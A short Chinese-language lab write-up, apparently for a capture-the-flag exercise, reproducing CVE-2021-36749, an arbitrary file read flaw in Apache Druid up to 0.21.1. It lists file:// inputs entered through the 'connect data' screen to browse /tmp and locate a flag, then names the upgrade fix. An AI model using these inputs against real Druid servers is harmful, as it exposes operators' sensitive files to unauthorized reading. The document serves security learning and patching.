# Apache Druid任意文件读取漏洞（CVE-2021-36749）
## 漏洞描述
- CVE-2021-36749 是 Apache Druid 中的一个任意文件读取漏洞，允许攻击者通过构造特定请求，读取服务器上的任意文件，从而可能导致敏感信息泄露。
- 影响版本：Apache Druid <= 0.21.1

## 复现步骤
端口转发后，进入https界面后点击connect data
![](./img/进入http界面.png)

利用漏洞特性输入下面指令,可以发现目录结构和敏感文件
```
file:///tmp
```
![](./img/输入urls.png)

依次输入下面指令进行文件结构的遍历尝试，发现flag位于/tmp目录下，至此实验完成
```
file:///flag
file:///root/flag
file:///home/druid/flag
file:///opt/flag
file:///tmp/flag
file:///flag.txt
file:///root/flag.txt
```
![](./img/找到flag.png)

## 漏洞修复
升级至Apache Druid 0.22.0及以上版本
